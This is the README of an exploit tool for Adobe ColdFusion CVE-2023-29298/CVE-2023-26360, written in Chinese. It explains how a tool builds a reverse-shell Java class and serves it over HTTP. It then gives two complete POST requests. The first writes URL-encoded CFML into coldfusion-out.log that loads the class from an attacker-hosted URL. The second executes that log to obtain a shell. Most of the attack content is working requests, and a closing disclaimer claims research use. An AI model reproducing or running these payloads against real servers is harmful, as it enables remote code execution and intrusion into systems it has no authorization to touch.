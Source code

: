 > CVE-2023-29298/CVE-2023-26360漏洞利用反弹工具

## 简介

漏洞原理是我们构建CFML数据客户端请求的数据会保存到服务器的`coldfusion-out.log`，这个目录会记录请求的错误的信息，coldfusion-out.log文件里面就有我们写入的代码了，然后我们使用classname读取执行这个日志文件达到代码执行的效果

这边我有一个思路，就是通过把恶意的class放到服务器上面，然后下载保存调用这个class文件，调用通过上面的这个漏洞他会去动态的加载类，去调用执行我们的class文件

这个写一个脚本，这个脚本会生成一个压缩包，这个压缩包里面

压缩包code目录下

```
utilize
    ├── address
    └── Poc.class
```

Poc.java里面主要存放反弹的代码

address存放地址和端口

上面的功能实现起来是非常非常麻烦的我写了一个自动化生成的工具，构建java的字节码文件，然后设置反弹的IP和端口，然后开启web

## 工具使用

```
工具名称 -host 指定反弹IP -port 指定反弹端口 -p 指定http端口（默认8888）
```

![](img/image-20240903175520156.png)

看一下

![](img/image-20240903180405934.png)

然后我们请求写入日志错误代码，下面的post的数据部分的http://192.168.191.58:8888/GjfZgo改成服务启动在的地址

```http
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=true HTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 816
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables=%7b%3ccftry%3e%3ccfset%20szlh%20%3d%20createObject%28%27java%27%2c%27java.net.URL%27%29.init%28%27http://192.168.191.58:8888/GjfZgo%27%29/%3e%3ccfset%20cafb%20%3d%20createObject%28%27java%27%2c%27java.lang.reflect.Array%27%29/%3e%3ccfset%20ireh%20%3d%20cafb.newInstance%28szlh.getClass%28%29%2c1%29/%3e%3ccfset%20cafb.set%28ireh%2c0%2cszlh%29/%3e%3ccfset%20fxlt%20%3d%20createObject%28%27java%27%2c%27java.net.URLClassLoader%27%29.init%28ireh%2cjavaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfset%20fxlt.loadClass%28%27code.Payload%27%29.newInstance%28%29.main%28javaCast%28%27null%27%2c%27%27%29%29/%3e%3ccfcatch%20type%3d%27any%27%3e%3c/cfcatch%3e%3ccffinally%3e%3ccffile%20action%3d%27write%27%20file%3d%27%23GetCurrentTemplatePath%28%29%23%27%20output%3d%27%27%3e%3c/cffile%3e%3c/cffinally%3e%3c/cftry%3e
```

然后执行日志里面的代码，固定的写死的直接发送

```http
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=true HTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 85
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables={"_metadata":{"classname":"l/../logs/coldfusion-out.log"},"_variables":[]}
```

执行看一下，上线了

![](img/image-20240903181156277.png)

## 免责声明

\1. 该安全工具仅供技术研究和教育用途。使用该工具时，请遵守适用的法律法规和道德准则。

\2. 该工具可能会涉及安全漏洞的测试和渗透测试，但请在授权的范围内使用，否则和作者无关。

\3. 使用该工具可能会涉及到一定的风险和不确定性，用户应该自行承担使用该工具所带来的风险。

\4. 使用本工具的用户应自行承担一切风险和责任。开发者对于用户使用本工具所产生的后果不承担任何责任。